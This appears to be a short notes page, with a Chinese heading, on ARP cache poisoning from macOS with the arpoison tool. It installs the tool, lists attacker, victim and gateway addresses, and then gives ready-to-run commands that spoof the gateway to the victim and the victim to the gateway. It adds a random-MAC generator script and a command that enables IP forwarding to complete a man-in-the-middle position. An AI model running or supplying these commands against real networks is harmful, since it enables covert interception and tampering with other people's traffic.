 ### 安裝 {#installing}

```console
shell> brew install arpoison
```

```
arpoison
       -i     Device e.g. eth0
       -d     Destination IP address in dotted decimal notation.
       -s     Source IP address in dotted decimal notation
       -t     Target MAC address e.g. 00:f3:b2:23:17:f5
       -r     Source MAC address
       -a     Send ARP REQUEST
       -n     Number of packets to send
       -w     Time in seconds between packets

Usage: -i <device> -d <dest IP> -s <src IP> -t <target MAC> -r <src MAC> [-a] [-w time between packets] [-n number to send]
```

`attacker` `192.168.11.3` `a0:99:9b:08:cb:87`
`victim` `192.168.11.2` `fc:aa:14:b4:4c:18`
`gateway` `192.168.11.1` `78:44:76:f8:ec:38`
`macgen` `00:16:3e:20:b0:11`

```console
shell> sudo arpoison -i en0 -d 192.168.11.2 -s 192.168.11.1 -t fc:aa:14:b4:4c:18 -r 00:16:3e:20:b0:11
shell> sudo arpoison -i en0 -d 192.168.11.2 -s 192.168.11.1 -t ff:ff:ff:ff:ff:ff -r 00:16:3e:20:b0:11
```

---

```console
shell> sudo arpoison -i en0 -d 192.168.11.1 -s 192.168.11.2 -t ff:ff:ff:ff:ff:ff -r fc:aa:14:b4:4c:18
shell> sudo arpoison -i en0 -d 192.168.11.1 -s 192.168.11.2 -t 78:44:76:f8:ec:38 -r fc:aa:14:b4:4c:18
```


```console
shell> ./macgen.py 
00:16:3e:20:b0:11
```
	
```py
#!/usr/bin/python
# macgen.py script to generate a MAC address for Red Hat Virtualization guests
#
import random
#
def randomMAC():
	mac = [ 0x00, 0x16, 0x3e,
		random.randint(0x00, 0x7f),
		random.randint(0x00, 0xff),
		random.randint(0x00, 0xff) ]
	return ':'.join(map(lambda x: "%02x" % x, mac))
#
print randomMAC()
```

`pfctl`

```
shell> sysctl -w net.inet.ip.forwarding=1
```




- https://www.centos.org/docs/5/html/5.2/Virtualization/sect-Virtualization-Tips_and_tricks-Generating_a_new_unique_MAC_address.html


<!--
http://www.linuxhub.org/?p=1644
https://jingyan.baidu.com/article/84b4f565c4f9e760f7da3251.html
-->
